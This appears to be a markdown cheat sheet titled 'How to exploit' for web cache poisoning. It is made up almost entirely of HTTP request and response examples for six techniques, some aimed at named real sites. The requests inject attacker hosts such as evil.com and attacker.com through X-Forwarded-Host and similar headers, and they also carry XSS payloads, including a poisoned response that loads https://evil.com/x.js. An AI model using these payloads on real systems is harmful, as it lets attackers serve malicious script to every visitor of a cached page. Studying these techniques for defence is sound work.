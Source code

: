 # Web Cache Poisoning

### How to exploit



1. Basic poisoning

```
GET / HTTP/1.1
Host: www.vuln.com
X-Forwarded-Host: evil.com
```

The response is

```
HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
<img href="https://evil.com/a.png" />
```

> Or you can input XSS payloads

```
GET / HTTP/1.1
Host: www.vuln.com
X-Forwarded-Host: a.\"><script>alert(1)</script>
```

The response is

```
HTTP/1.1 200 OK
Cache-Control: public, no-cache
…
<img href="https://a.\"><script>alert(1)</script>a.png" />
```

2. Seizing the Cache

```
GET / HTTP/1.1
Host: unity3d.com
X-Host: evil.com
```

The response is

```
HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800
…
<script src="https://evil.com/x.js">
</script>
```

3. Selective poisoning

```
GET / HTTP/1.1
Host: redacted.com
User-Agent: Mozilla/5.0 (<snip> Firefox/60.0)
X-Forwarded-Host: a"><iframe onload=alert(1)>
```

The response is

```
HTTP/1.1 200 OK
X-Served-By: cache-lhr6335-LHR
Vary: User-Agent, Accept-Encoding
…
<link rel="canonical" href="https://a">a<iframe onload=alert(1)>
```

4. Chaining Unkeyed Inputs

* First step

```
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Host: xyz
```

The response is

```
HTTP/1.1 200 OK
Set-Cookie: locale=en; domain=xyz
```

* Second step

```
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Scheme: nothttps
```

The response is

```
HTTP/1.1 301 Moved Permanently
Location: https://redacted.net
```

* Third step

```
GET /en HTTP/1.1
Host: redacted.net
X-Forwarded-Host: attacker.com
X-Forwarded-Scheme: nothttps
```

The response is

```
HTTP/1.1 301 Moved Permanently
Location: https://attacker.com/en
```

5. Route Poisoning

```
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Server: evil
```

The response is

```
HTTP/1.1 404 Not Found
CF-Cache-Status: MISS
...
<title>HubSpot - Page not found</title>
<p>The domain canary does not exist in our system.</p>
```

To exploit this, we need to go to hubspot.com, register ourselves as a HubSpot client, place a payload on our HubSpot page, and then finally trick HubSpot into serving this response on goodhire.com

```
GET / HTTP/1.1
Host: www.goodhire.com
X-Forwarded-Host: portswigger-labs-4223616.hs-sites.com
```

The response is

```
HTTP/1.1 200 OK
…
<script>alert(document.domain)</script>
```

6. Hidden Route Poisoning

```
GET / HTTP/1.1
Host: blog.cloudflare.com
X-Forwarded-Host: evil
```

The response is

```
HTTP/1.1 302 Found
Location: https://ghost.org/fail/
```

When a user first registers a blog with Ghost, it issues them with a unique subdomain under ghost.io. Once a blog is up and running, the user can define an arbitrary custom domain like blog.cloudflare.com. If a user has defined a custom domain, their ghost.io subdomain will simply redirect to it:

```
GET / HTTP/1.1
Host: blog.cloudflare.com
X-Forwarded-Host: noshandnibble.ghost.io
```

The response is

```
HTTP/1.1 302 Found
Location: http://noshandnibble.blog/
```
